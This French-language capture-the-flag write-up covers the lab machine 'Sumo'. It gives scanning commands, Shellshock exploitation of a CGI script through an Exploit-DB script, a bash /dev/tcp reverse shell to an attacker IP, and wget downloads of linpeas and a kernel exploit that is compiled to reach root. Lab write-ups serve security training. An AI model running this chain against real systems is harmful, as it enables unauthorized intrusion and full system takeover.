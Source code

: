 # Sumo

    sudo nmap -p- -sV -T5 192.168.161.87
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.161.87 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.161.87
    gobuster dir -u http://192.168.161.87 -w  /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
Scans classiques.

Absolument rien d'exploitable sur le site à première vue : 

> /.htpasswd (Status: 403) [Size: 291]   
> /.htaccess (Status: 403) [Size: 291]   
> /cgi-bin/ (Status: 403) [Size: 290]   
> /index (Status: 200) [Size: 177]   
> /server-status (Status: 403) [Size: 295]

Mais en lançant un scan avec Nikto on voit que le site serait potentiellement exposé aux vulnérabilités de type Shellshock. Et c'est vrai que le fait de voir un dossier **/cgi-bin/** doit être un déclic pour tester la Shellshock, même si il est en 403.

    ffuf -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://192.168.161.87/cgi-bin/FUZZ.sh -e .sh,.cgi -fc 403
Ce fuzzing fonctionne et nous sort des résultats positifs pour **"test"** et en effet l'URL http://192.168.161.87/cgi-bin/test amène sur une page indiquant **"CGI Default !"**

Pour l'exploitation, j'ai trouvé un bon script tout fait au lieu de m'embêter à passer par cURL : 
<br /> https://www.exploit-db.com/exploits/34900

    vim exploit_Shellshock.py
    python2.7 exploit_Shellshock.py payload=reverse rhost=192.168.161.87 lhost=192.168.45.171 lport=9999 pages=/cgi-bin/test
    /bin/bash -i >& /dev/tcp/192.168.45.171/1234 0>&1
    cat local.txt

### Élévation de privilèges classique avec un CVE : 

    wget http://192.168.45.171/linpeas.sh
    chmod u+x ./linpeas.sh
    ./linpeas.sh | tee resultat.txt
    ...
    wget http://192.168.45.171/exploit_Linux_33589.c
    gcc exploit_Linux_33589.c -O2 -o ./33589.sh
    ./33589.sh 0
    ls /root
    cat /root/proof.txt
